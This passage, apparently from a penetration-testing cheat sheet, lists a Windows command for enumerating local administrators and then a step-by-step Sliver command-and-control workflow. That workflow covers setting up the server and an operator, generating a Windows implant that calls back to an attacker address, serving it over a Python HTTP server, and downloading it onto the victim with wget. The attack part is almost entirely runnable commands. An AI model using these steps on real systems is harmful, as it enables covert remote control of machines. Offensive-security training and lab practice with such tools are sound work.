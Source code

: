     ```
    * look at the members of the administrators group
    ```
    net localgroup administrators
    ```

## Sliver
### Create Payload
* linux 
    * sliver server
        * setup sliver server
        ```
        sudo sliver-server
        ```
        * enable multiplayer mode
        ```
        multiplayer
        ```
        * create a user
        ```
        new-operater -n test -s /tmp/ -l SLIVER_ADDRESS
        sudo chown sec560:sec560 /tmp/*.cfg
        ```

    * sliver client
        * setup the client
        ```
        sliver-client import /tmp/test_SLIVER_ADDRESS.cfg
        ```
        * run the client
        ```
        sliver-client
        ```
        * create the listener
        ```
        https
        ```
        * generate the payload
        ```
        generate --os windows --skip-symbols --name first --http LHOST_ADDRESS
        implants
        ```

### Send Implants
* linux
    * python server
    ```
    python3 -m http.server
    ```
* windows
    * download implants
    ```
    wget http://LHOST_ADDRESS:8000/IMPLANTS_NAME.exe -OutFile a.exe
    ```
